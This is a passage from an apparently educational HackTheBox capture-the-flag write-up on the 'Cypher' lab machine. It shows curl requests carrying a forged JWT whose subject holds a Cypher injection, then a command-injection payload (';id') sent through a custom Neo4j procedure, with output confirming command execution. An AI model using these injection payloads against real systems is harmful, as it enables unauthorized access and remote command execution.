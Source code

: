 Sending the URL encoded query to the server shows the response which correlates with the source code from the JAR file.

```
fcoomans@kali:~/htb/cypher$ curl -s -b 'access-token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbicgT1IgdHJ1ZSBSRVRVUk4gJzViYWE2MWU0YzliOTNmM2YwNjgyMjUwYjZjZjgzMzFiN2VlNjhmZDgnIEFTIGhhc2ggLy8iLCJleHAiOjE3NTI3Mjk4NDB9.0aLQ2TGsW98XtUQBqAAGCmnHMIvy-0uVTPBVpgfXagM' "http://cypher.htb/api/cypher?query=CALL%20custom.helloWorld('Frans')" |jq
[
  {
    "greeting": "Hello, Frans!"
  }
]
```

The `url` parameter from the `custom.getUrlStatusCode` procedure is not sanitized and can be used for command-injection.

![](images/Pasted%20image%2020250716194000.png)

### 🧪 Exploitation

To test this I send the payload `;id` as the URL to be checked.

```cypher
CALL custom.getUrlStatusCode(';id')
```

As expected, the response is the user id information.

```
fcoomans@kali:~/htb/cypher$ curl -s -b 'access-token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbicgT1IgdHJ1ZSBSRVRVUk4gJzViYWE2MWU0YzliOTNmM2YwNjgyMjUwYjZjZjgzMzFiN2VlNjhmZDgnIEFTIGhhc2ggLy8iLCJleHAiOjE3NTI3Mjk4NDB9.0aLQ2TGsW98XtUQBqAAGCmnHMIvy-0uVTPBVpgfXagM' "http://cypher.htb/api/cypher?query=CALL%20custom.getUrlStatusCode(';id')" |jq
[
  {
    "statusCode": "000uid=110(neo4j) gid=111(neo4j) groups=111(neo4j)"
  }
]
```
